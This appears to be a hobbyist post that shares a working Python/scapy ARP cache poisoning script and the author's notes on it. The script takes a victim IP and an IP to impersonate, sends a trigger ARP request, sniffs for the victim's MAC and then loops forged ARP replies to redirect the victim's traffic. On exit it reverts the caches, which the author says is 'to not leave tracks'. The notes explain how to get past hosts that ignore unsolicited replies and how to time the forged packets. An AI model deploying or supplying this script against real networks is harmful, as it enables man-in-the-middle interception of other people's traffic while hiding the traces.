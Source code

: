 ok, kinda long

---------

script code *arp_poison_loop_revert_6and7_version3.py*
```python
from scapy.all import conf,get_if_addr,get_if_hwaddr,ARP,Ether,sendp, sniff
import time
from multiprocessing import Process ,Queue
import argparse

parser = argparse.ArgumentParser()
parser.add_argument("--target" , help= "Victim IP", required=True)
parser.add_argument("--spoof" , help="IP to Spoof" , required=True)
args = parser.parse_args()
#dont forget to enable for the love of god ip forwarding

iface = conf.iface
MyMAC = get_if_hwaddr(iface)
MyIP = get_if_addr(iface)

fake_mac = MyMAC

ip_victim = args.target
fake_ip = args.spoof
mac_victim = ""
mac_suplatation = ""
aux = ""   

def packet_handler(pkt):
    global mac_victim
    if ARP in pkt:
        if pkt[ARP].op == 2:
            if pkt[ARP].psrc == ip_victim and pkt[ARP].pdst == fake_ip:
                mac_victim = pkt[ARP].hwsrc
                return True
    return False

def sniffer(q):
    global fake_ip
    global ip_victim
    global aux
    global mac_suplatation
    global p1
    global p2
    sniff(filter = "arp", stop_filter  = packet_handler)
    if aux == ip_victim:
        frame = Ether(src = mac_victim, dst = "ff:ff:ff:ff:ff:ff")/ARP(op = 2, psrc = ip_victim , pdst = "0.0.0.0" , hwsrc = mac_victim, hwdst = "ff:ff:ff:ff:ff:ff")
        sendp(frame,iface=iface, count = 15,inter = 1, verbose = 1) #to revert the metasploit or the suplantation ip we doing atm
        aux = fake_ip
        fake_ip = ip_victim
        ip_victim = aux
        frame = Ether(src = mac_victim, dst = mac_suplatation)/ARP(op = 2, psrc = fake_ip , pdst = ip_victim , hwsrc = mac_victim, hwdst = mac_suplatation)
        sendp(frame,iface=iface, count = 10 ,inter = 0.05, verbose = 1) #to revert the uibuntu or the victims arp
        print("DONE")
        p1.terminate()
        p2.terminate()
        
    else:  
        poison(fake_mac,MyMAC,fake_ip,ip_victim,q)


def poison (mac_fake,mac_real,ip_host,ip_vict,q):
    q.put(mac_victim)
    while True:
        frame = Ether(src = mac_fake, dst = mac_victim)/ARP(op = 2, psrc = ip_host , pdst = ip_vict , hwsrc = mac_fake, hwdst = mac_victim)
        sendp(frame,iface=iface, count = 1 ,inter = 1, verbose = 2)  

  
def potion( ):
    global aux 
    global fake_ip
    global ip_victim
    aux = fake_ip
    fake_ip = ip_victim
    ip_victim = aux
    
    q1 = Queue()
    p1 = Process(target=sniffer, args=(q1,))
    p2 = Process(target=trigger)
    p1.start()
    p2.start()


def trigger():
    global aux
    global fake_ip
    global ip_victim
    frame = Ether(src = MyMAC)/ARP(op = 1, psrc = fake_ip , pdst = ip_victim , hwsrc = MyMAC)
    sendp(frame,iface=iface, count = 1, verbose = 0)
    #p2.terminate()
    #p2.join()


try:
    q = Queue()
    p1 = Process(target=sniffer, args=(q,))
    p2 = Process(target=trigger)
    p1.start()
    p2.start()

    while True:
        time.sleep(0.2)
    
except KeyboardInterrupt:
    print("REVERTING ATTACK...WAIT...")  
    mac_suplatation = q.get()
    p1.terminate()
    p1.join()
    p2.terminate()
    p2.join()
    potion()
```

------------------

so some key points here

multithread processess must be termiante, closed and joined to the father thread they belong. on my case the main thread was the 
initial program. now dont forget to use while true before the keyboard interrupt becaseu if not the threat will be incorreclty 
closed and will output error, you must to properly close this

i used threads becase i needed to sniff the network at the same time i triggered the first request arp to the victim
and here is another revelation, tools liek arpspoof from dsniff wont work if the ip we trying to impersonate is not, i repeat, is not
previously saved on the arp table of the victim. is a , as this day, coutermeasuere to not accept replies from ips that where not
asked, and is common sense. 
and i know im doign more work as i needed to do , btu i wnated to paly a little and discover that if we send a planned request arp
like seting up the base, a trigger, after that any reply built on that request will be accepted
i know the router will always be saved so no sense, but what if we we would wnat to do this with another host o nthe network

key thing here is that we , when revertign the attack, we ask for the repli arp , after an arp request, and save the mac address, after that
we have the mac address of the victim and the host or dev we impersonating. we send multipel replies to those to not leave tracks.

i know my code could have some errors, but proud to be with this script. i must say that if you want to use this code, pelase do it on a 
controled environment since it tends sometimes to fail , so you must to be careful

also another thign i learned was that some older OSes wont cahnge the arp table on replies if they go too fast, hence the time (variable inter) for the replies each 1 sec and different for mthe last sendp which is 0.5 secs

